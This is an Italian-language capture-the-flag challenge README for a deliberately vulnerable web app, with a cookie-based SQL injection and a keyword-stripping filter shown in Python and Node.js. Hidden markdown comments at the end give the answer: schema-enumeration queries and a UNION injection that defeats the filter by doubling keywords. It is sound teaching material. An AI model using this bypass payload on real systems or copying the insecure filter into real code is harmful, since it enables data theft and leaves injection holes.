# Challenge: Cookie Tampering & SQL Injection

## Descrizione
Hai accesso al codice sorgente di un'applicazione web con diverse vulnerabilità interessanti:
- Una **SQL Injection nella registrazione** 
- Una **Cookie Tampering vulnerability** nella pagina del profilo 🍪
- Un tentativo (fallito) di filtrare input pericolosi con una funzione bypassabile

L'obiettivo? Sfruttare queste vulnerabilità per recuperare la flag nascosta nella tabella!

## Obiettivo
- **Analizza il codice per identificare i punti vulnerabili**
- **Sfrutta la SQL injection nel cookie 'uid' della pagina profilo**
- **Costruisci una UNION injection per leggere la flag dalla tabella segreta**
- **Recupera il valore di della flag**

## Avviare il server:
```bash
docker pull ghcr.io/ax3lt/sqli-ch2
docker run -p 80:80 ghcr.io/ax3lt/sqli-ch2
```

## Suggerimenti
- Il codice nella pagina profilo usa questa query vulnerabile:
```sql
SELECT username FROM users WHERE id = [valore-del-cookie]
```

### Filtro (Python):
```python
def filter_query(query):
    keywords = ["SELECT", "FROM", "WHERE", "OR", "AND", "INSERT", "UPDATE", "DELETE", "DROP", "ALTER", "CREATE", "TABLE", "DATABASE", "UNION", "JOIN"]
    for keyword in keywords:
        query = query.replace(keyword, "")
    return query
```

### Filtro (Node.js):
```javascript
function filterQuery(query) {
    const keywords = ["SELECT", "FROM", "WHERE", "OR", "AND", "INSERT", "UPDATE", "DELETE", "DROP", "ALTER", "CREATE", "TABLE", "DATABASE", "UNION", "JOIN"];
    return keywords.reduce((filteredQuery, keyword) => {
        return filteredQuery.replace(keyword, "");
    }, query);
}
```

[//]: # (Prima bisogna spiegare che si possono ottenere info sui db e le loro tabelle con la query:)

[//]: # (```sql)

[//]: # (SELECT table_name FROM information_schema.tables WHERE table_schema=database&#40;&#41;)

[//]: # (```)

[//]: # (E per ottenere i nomi delle colonne di una tabella si può usare:)

[//]: # (```sql)

[//]: # (SELECT column_name FROM information_schema.columns WHERE table_name='...')

[//]: # (```)

[//]: # (Inj finale pre filter:)

[//]: # (```sql)

[//]: # (2 UNION SELECT mypersonalflag FROM flagrandomwordss -- a)

[//]: # (```)

[//]: # ()
[//]: # (Inj finale post filter:)

[//]: # (```sql)

[//]: # (2 UNIOUNIONN SELECSELECTT mypersonalflag FROFROMM flagrandomwordss -- a)

[//]: # (```)